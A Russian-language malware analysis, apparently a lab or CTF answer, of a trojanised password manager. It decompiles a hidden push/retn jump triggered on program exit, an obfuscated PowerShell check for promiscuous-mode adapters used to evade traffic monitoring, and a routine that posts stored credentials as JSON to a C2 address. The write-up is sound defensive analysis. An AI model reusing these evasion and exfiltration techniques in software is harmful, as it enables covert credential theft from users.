



# Keepass.exe


## 1. Начало анализа с WinMain

В начале `WinMain` видно, что программа создает окно:

```c
hWnd = CreateWindowExW(
  0,
  WndClass.lpszClassName,
  L"Key Storage",
  ...
```

Дальше в `WinMain` идет инициализация интерфейса, а потом начинается главный цикл программы.

В `WinMain` есть цикл:

```c
while ( !v12[0] )
{
  while ( PeekMessageW(&Msg, 0, 0, 0, 1u) )
  {
    TranslateMessage(&Msg);
    DispatchMessageW(&Msg);
    if ( Msg.message == 18 )
      sub_140081C20(v12);
  }

  switch ( dword_1400EBDA8 )
  {
    case 0: sub_1400771E0(); break;
    case 1: sub_1400773A0(); break;
    case 2: sub_140077C90(); break;
    case 3: sub_140078430(); break;
    case 4: sub_140078EB0(); break;
    case 5: sub_1400798D0(); break;
  }
}
```

Тут видно обычную обработку сообщений Windows:

```text
PeekMessageW     - получить сообщение окна
TranslateMessage - обработать сообщение клавиатуры
DispatchMessageW - передать сообщение в оконную процедуру
```

После этого идет проверка:

```c
if ( Msg.message == 18 )
  sub_140081C20(v12);
```

Это место выглядит интересным, потому что при определенном сообщении вызывается отдельная функция

`18` - это `0x12`.

`0x0012` в windows - это `WM_QUIT`, то есть сообщение о завершении программы

В итоге имеем такую цепочку:

```text
программа закрывается
-> приходит WM_QUIT
-> Msg.message == 18
-> вызывается sub_140081C20
```

## 2. Анализ sub_140081C20

Переходим в `sub_140081C20` и видим псевдокод:

```
void __fastcall sub_140081C20(_BYTE *a1)
{
  *a1 = 1;
  __asm { retn }
}
```

А в дизассемблере виден код:

```asm
sub_140081C40 proc near
push    0
lea     rax, sub_140081C53
push    rax
lea     rax, sub_14007ADE0
push    rax
retn
sub_140081C40 endp ; sp-analysis failed
```

Здесь нет обычного вызова:

```asm
call sub_14007ADE0
```

Вместо этого используется другой прием:

```text
адрес sub_14007ADE0 кладется на стек;
потом выполняется retn;
retn берет адрес со стека;
управление переходит в sub_14007ADE0.
```

То есть `retn` здесь используется не как обычный возврат, а как скрытый переход.



Сстановится понятно:

```text
при закрытии программы управление скрыто переходит в sub_14007ADE0
```

Поэтому дальше я начал смотреть функцию `sub_14007ADE0`

## 3. Анализ sub_14007ADE0

Я перешел на адрес:

```text
0x14007ADE0
```

Внутри функции видно несколько частей:

```text
1. Сборка команды PowerShell.
2. Запуск этой команды через CreateProcessA.
3. Чтение результата через pipe.
4. Поиск строки "True".
5. Сборка адреса C2.
6. Отправка данных через libcurl.
```


## 4. Сборка команды PowerShell

В начале функции есть два больших куска рандомных символов:

```c
qmemcpy(CommandLine, "p$+0oaN.wao?e^]*rY?=s\"coh*w#e~y lTZfl+Xo 8l2\"1HcG'xyet'stb;~-Jx_NSA eucDt", 73);

qmemcpy(
  v23,
  "::A6QFdkJga}/kpvF,tZKFet!nrIMN p3]|o/# ~.QS9tjeQ%$l:N`e0hCcyc/t %y p&+N$}EaPC0mfGReqM1,...",
  sizeof(v23));
```

Сначала кажется, что это просто мусор, но ниже есть цикл:

```c
for ( i = 0; i < 232; i += 4 )
  CommandLine[v7++] = CommandLine[i];
```

То есть программа берет каждый четвертый символ и после этого получается команда:

```powershell
powershell "Get-NetAdapter | Select Name, PromiscuousMode"
```


## 5. Запуск команды и проверка результата

Дальше функция создает pipe:

```c
CreatePipe(&hReadPipe, &hWritePipe, &PipeAttributes, 0)
```

Потом запускает процесс:

```c
CreateProcessA(0, CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation)
```

Так как используется `StartupInfo.hStdOutput` и `StartupInfo.hStdError`, программа забирает вывод PowerShell себе.

Потом она читает вывод:

```c
while ( ReadFile(hReadPipe, Buffer, 0x80u, &NumberOfBytesRead, 0) && NumberOfBytesRead )
{
  if ( _crtFreeLibraryWhenCallbackReturns(Buffer, "True") )
    return 1;
}
```

По смыслу функция ищет строку:

```text
True
```

Если `"True"` найдено, `sub_14007ADE0` сразу завершается.

Команда PowerShell проверяет параметр:

```text
PromiscuousMode
```

Если `PromiscuousMode=True`, это может означать, что на хосте слушают сетевой трафик.

Значит, программа пытается не отправлять данные, если есть признак прослушивания трафика

## 6. Сборка C2-адреса

После проверки идет цикл:

```c
for ( j = 0; j < 4; ++j )
{
  v11 = &a1Ptth086129085[8 * j];
  for ( k = 7; k >= 0; --k )
  {
    if ( v11[k] )
      v25[v9++] = v11[k];
  }
}
```

В данных лежат куски строки:

```text
1//:ptth
0.861.29
08:531.
```

Они записаны наоборот. После разворота получается:

```text
http://192.168.0.135:80
```

Это адрес C2.



## 7. Отправка данных

Дальше функция проверяет глобальный буфер:

```c
v1 = std::basic_stringstream<char>::str(&unk_1400EBFE0, v12);
v4 = (unsigned __int8)unknown_libname_10(v1) == 0;
```

`unk_1400EBFE0` - это буфер, где находятся сохраненные записи в виде JSON.

Если данные есть, выполняется отправка:

```c
sub_140081DD0(3);
v10 = sub_140081C70();
v2 = std::basic_stringstream<char>::str(&unk_1400EBFE0, v13);
v3 = sub_14007DC30(v2);
sub_140083710(&Block, &v17, 1, "_", 4, v3, 17);
```


Итог: программа отправляет JSON с сохраненными данными на C2 через HTTP POST.

## Общая цепочка

В итоге вся цепочка выглядит так:

```text
WinMain
-> главный цикл сообщений
-> Msg.message == 18
-> 18 = WM_QUIT
-> sub_140081C20
-> скрытый переход
-> sub_14007ADE0
-> проверка PromiscuousMode через PowerShell
-> если True найдено, отправка отменяется
-> если True нет, собирается C2
-> данные из unk_1400EBFE0 отправляются через libcurl
```

## Вопросы

### 1. Какой функционал предоставляет данная программа?

Программа выглядит как простой менеджер паролей.


Но кроме обычного функционала есть НДВ: скрытая отправка сохраненных данных на C2.

### 2. Что является тригером для запуска функции отправки данных на C2?

Триггер - закрытие программы.

В `WinMain` есть проверка:

```c
if ( Msg.message == 18 )
  sub_140081C20(v12);
```

`18` - это `0x12`, то есть `WM_QUIT`.

После этого через скрытый переход `push/retn` запускается функция:

```text
sub_14007ADE0
```

Именно она выполняет отправку

### 3. На какой адрес C2 программа пытается отправить данные?

Программа собирает адрес из перевернутых блоков

C2:

```text
http://192.168.0.135:80
```

### 4. Какие меры предостарожности использует программа во время отправления данных на C2, дабы не быть пойманой при прослушивание трафика на хосте?

Перед отправкой программа проверяет `PromiscuousMode` сетевого адаптера.

Она скрытно запускает команду:

```powershell
powershell "Get-NetAdapter | Select Name, PromiscuousMode"
```

Если в выводе есть:

```text
True
```

то отправка отменяется.

Простыми словами: если программа видит признак того, что на хосте могут прослушивать трафик, она не отправляет данные
